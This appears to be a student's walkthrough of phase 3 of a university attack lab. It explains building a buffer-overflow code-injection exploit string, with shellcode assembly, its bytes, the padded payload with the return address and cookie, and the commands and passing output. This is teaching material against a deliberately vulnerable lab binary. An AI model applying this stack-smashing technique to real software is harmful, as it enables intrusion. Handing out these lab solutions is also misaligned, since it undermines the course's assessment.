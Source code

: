 Phase 3 is kinda similar to phase to except that we are trying to call the function touch3 and have to pass our cookie to it as string

In the instruction it tells you that if you store the cookie in the buffer allocated for getbuf, the functions hexmatch and strncmp
may overwrite it as they will be pushing data on to the stack, so you have to be careful where you store it.

We will be storing it before the return address of getbuff (24 bytes)

The return address of getbuf is %rsp + buffer, the buffer was 24 bytes so it will be %rsp + 24

`0x18` = `24`

we know, `%rsp = 0x55623840`

Thus, return address = `0x55623840 + 0x18  = 0x55623858`

Your cookie address = `0x55623840 - 0x18` = `0x55623828`

If you look in the disassembled file, you can find the address of touch3

Mine is at `0x00401860`

Now you need this assembly code, same steps generating the byte representation

```
    movq $0x55623858,%rdi /* %rsp + 0x18 */
    pushq $0x00401860      /* touch3 address */   
    retq
```

The byte representation is as follows:
```
Disassembly of section .text:

0000000000000000 <.text>:
   0:	48 c7 c7 58 38 62 55 	mov    $0x55623858,%rdi
   7:	68 60 18 40 00       	pushq  $0x401860
   c:	c3                   	retq   
```

Now, grab the bytes from the above code and start constructing your exploit string.
```
48 c7 c7 58 38 62 55 68
60 18 40 00 c3 00 00 00 /* mov return address of getbuf to rdi register and push address of touch3 to the stack */
00 00 00 00 00 00 00 00 /* padding */
28 38 62 55 00 00 00 00 /* return address of rsp-0x18, where the string will be stored*/
34 33 34 62 34 62 37 30 /* cookie string*/
```
If you look at the last row above, the cookie isn't in hex format, so you need to take your cookie and convert in to string format.
Go to http://www.unit-conversion.info/texttools/hexadecimal/ and put in your cookie and it should give you the text format or you could look up ascii equivalent on your machine


Last step is to generate the raw eploit string using the hex2raw program.

`./hex2raw < phase3.txt > raw-phase3.txt`

Finally, you run the raw file

`./ctarget < raw-phase3.txt`

Response looks like below

```
Cookie: 0x434b4b70
Type string:Touch3!: You called touch3("434b4b70")
Valid solution for level 3 with target ctarget
PASS: Sent exploit string to server to be validated.
NICE JOB!
```
